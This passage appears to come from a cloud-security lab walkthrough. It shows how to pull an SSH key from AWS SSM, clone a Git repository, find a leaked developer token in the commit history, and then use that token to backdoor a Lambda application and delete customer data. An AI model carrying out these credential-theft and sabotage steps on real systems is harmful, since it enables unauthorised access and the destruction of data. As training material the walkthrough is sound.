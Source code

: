 - Then, clone the repository using `git clone git@GIT_IP_ADDRESS:root/scenario8_<user_id>.git`  

Quick variant:  

- `aws ssm get-parameter --name git_access_key_for_sc8_ro_user_<user_id> --query Parameter.Value --output text --profile scenario8_<user_id> > stolen.key`

- `GIT_SSH_COMMAND='ssh -i stolen.key -o IdentitiesOnly=yes' git clone git@GIT_IP_ADDRESS:root/scenario8_<user_id>.git`

## Step 4

The repository contains the backend code of the Lambda function exposed through the API gateway. Check the commit history to note a leaked access token:  

`cd scenario8_<user_id>`  
`git log`  
`git show .....`

```diff
commit 0ca720ac2d27ae5a3a1b05ebe2c7f18aeba82b75 (HEAD -> main, origin/main, origin/HEAD)
Author: .....
Date:   .....

    buildspec.yml file - hardcoded keys removed

diff --git a/buildspec.yml b/buildspec.yml
index cce1afe..58059b8 100644
--- a/buildspec.yml
+++ b/buildspec.yml
@@ -8,9 +8,9 @@ phases:
     commands:
     - echo $LAMBDA_TASK_ROOT
     - echo "Get source from GitLab repository"
-    - git clone http://developer_<user_id>:<token>@<EC2_IP_ADDRESS>/root/scenario8_<user_id>.git
+    - git clone http://$USER:$TOKEN@$ADDRESS/root/scenario8_$USERID.git
     - echo "Building Docker image"
-    - docker build ./scenario8_<user_id> -t $ECR_REPOSITORY:latest
+    - docker build ./scenario8_$USERID -t $ECR_REPOSITORY:latest
   post_build:
     commands:
     - echo "Pushing Docker image to ECR"
```

## Step 5

These credentials you found belong to the user `developer_<user_id>`, who has pull and push access to this repository. Use this access to backdoor the application and delete table with the sensitive data that customers are sending to the API!

- Clone repository again with developer token:  

`git clone http://developer_<user_id>:<token>@<EC2_IP_ADDRESS>/root/scenario8_<user_id>.git`  

`cd scenario8_<user_id>`
